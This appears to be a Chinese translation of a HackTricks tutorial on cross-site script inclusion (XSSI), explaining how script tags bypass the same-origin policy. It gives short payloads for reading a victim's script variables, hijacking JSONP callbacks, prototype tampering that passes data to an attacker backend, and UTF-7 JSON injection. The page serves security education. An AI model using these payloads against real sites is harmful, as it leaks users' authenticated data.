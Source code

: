 # XSSI (跨站脚本包含)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}


## 基本信息

**跨站脚本包含 (XSSI)** 是一种由于 HTML 中 `script` 标签的特性而产生的漏洞。与大多数资源不同，脚本可以从不同的域包含，这些资源受 **同源策略 (SOP)** 的限制。这种行为旨在促进使用托管在不同服务器上的库和其他资源，但也引入了潜在的安全风险。

### **XSSI** 的主要特征：
- **绕过 SOP**：脚本不受 **同源政策** 的限制，允许跨域包含。
- **数据暴露**：攻击者可以利用这种行为读取通过 `script` 标签加载的数据。
- **对动态 JavaScript/JSONP 的影响**：**XSSI** 对动态 JavaScript 或 **带填充的 JSON (JSONP)** 特别相关。这些技术通常使用“环境权限”信息（如 cookies）进行身份验证。当向不同主机发出脚本请求时，这些凭据（例如 cookies）会自动包含在请求中。
- **身份验证令牌泄露**：如果攻击者能够欺骗用户的浏览器请求来自他们控制的服务器的脚本，他们可能能够访问这些请求中包含的敏感信息。

### 类型

1. **静态 JavaScript** - 代表传统形式的 XSSI。
2. **带身份验证的静态 JavaScript** - 这种类型不同，因为它需要身份验证才能访问。
3. **动态 JavaScript** - 涉及动态生成内容的 JavaScript。
4. **非 JavaScript** - 指不直接涉及 JavaScript 的漏洞。

**以下信息是 [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414) 的总结。请查看以获取更多详细信息。**


### 常规 XSSI
在这种方法中，私人信息嵌入在一个全球可访问的 JavaScript 文件中。攻击者可以使用文件读取、关键字搜索或正则表达式等方法识别这些文件。一旦找到，包含私人信息的脚本可以被包含在恶意内容中，从而允许未经授权访问敏感数据。下面展示了一种示例利用技术：
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### 动态JavaScript基础的XSSI和认证JavaScript-XSSI
这些类型的XSSI攻击涉及机密信息根据用户请求动态添加到脚本中。可以通过发送带有和不带有cookie的请求并比较响应来进行检测。如果信息不同，这可能表明存在机密信息。可以使用像[DetectDynamicJS](https://github.com/luh2/DetectDynamicJS)这样的Burp扩展来自动化此过程。

如果机密数据存储在全局变量中，可以使用与常规XSSI相似的方法进行利用。然而，如果机密数据包含在JSONP响应中，攻击者可以劫持回调函数以检索信息。这可以通过操纵全局对象或设置一个由JSONP响应执行的函数来完成，如下所示：
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
对于不在全局命名空间中的变量，*prototype tampering* 有时可以被利用。该技术利用了 JavaScript 的设计，其中代码解释涉及遍历原型链以定位被调用的属性。通过重写某些函数，例如 `Array` 的 `slice`，攻击者可以访问并泄露非全局变量：
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
进一步的攻击向量细节可以在安全研究员 [Sebastian Lekies](https://twitter.com/slekies) 的工作中找到，他维护着一个 [vectors](http://sebastian-lekies.de/leak/) 列表。

### 非脚本-XSSI
寺田健的研究介绍了另一种形式的 XSSI，其中非脚本文件，如 CSV，通过作为 `script` 标签中的源被跨域泄露。历史上 XSSI 的实例，如 Jeremiah Grossman 在 2006 年的攻击以读取完整的 Google 地址簿和 Joe Walker 在 2007 年的 JSON 数据泄露，突显了这些威胁的严重性。此外，Gareth Heyes 描述了一种攻击变体，涉及使用 UTF-7 编码的 JSON 来逃避 JSON 格式并执行脚本，在某些浏览器中有效：
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
